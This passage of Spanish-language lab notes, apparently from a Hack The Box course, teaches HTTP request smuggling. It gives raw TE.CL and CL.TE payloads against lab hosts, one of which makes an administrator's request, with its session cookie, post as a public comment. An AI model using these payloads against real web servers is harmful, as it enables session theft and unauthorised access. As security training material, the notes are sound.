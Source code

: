 Mientras que una carga útil para una vulnerabilidad TE.CL podría verse similar a esto:

```http
GET / HTTP/1.1
Host: vuln.htb
Content-Length: 4
Transfer-Encoding: chunked

35
GET /internal/index.php HTTP/1.1
Host: localhost


0
```

### Robar datos de usuario

Veamos un ejemplo de una funcionalidad de comentarios:

![[Pasted image 20230516154747.png]]

la solicitud viaja de la siguiente manera:

```http
POST /comments.php HTTP/1.1
Host: stealingdata.htb
Content-Length: 43
Content-Type: application/x-www-form-urlencoded

name=htb-stdnt&comment=Hello+World%21
```

Robemos la cookie de sesión del usuario administrador aprovechando la vulnerabilidad **CL.TE** para obtener acceso al panel administrador `/admin`. Podemos lograr esto obligando al usuario administrador a publicar su solicitud como un comentario en la sección de comentarios con la siguiente solicitud:

```http
POST / HTTP/1.1
Host: stealingdata.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Transfer-Encoding: chunked

0

POST /comments.php HTTP/1.1
Host: stealingdata.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

name=hacker&comment=test
```
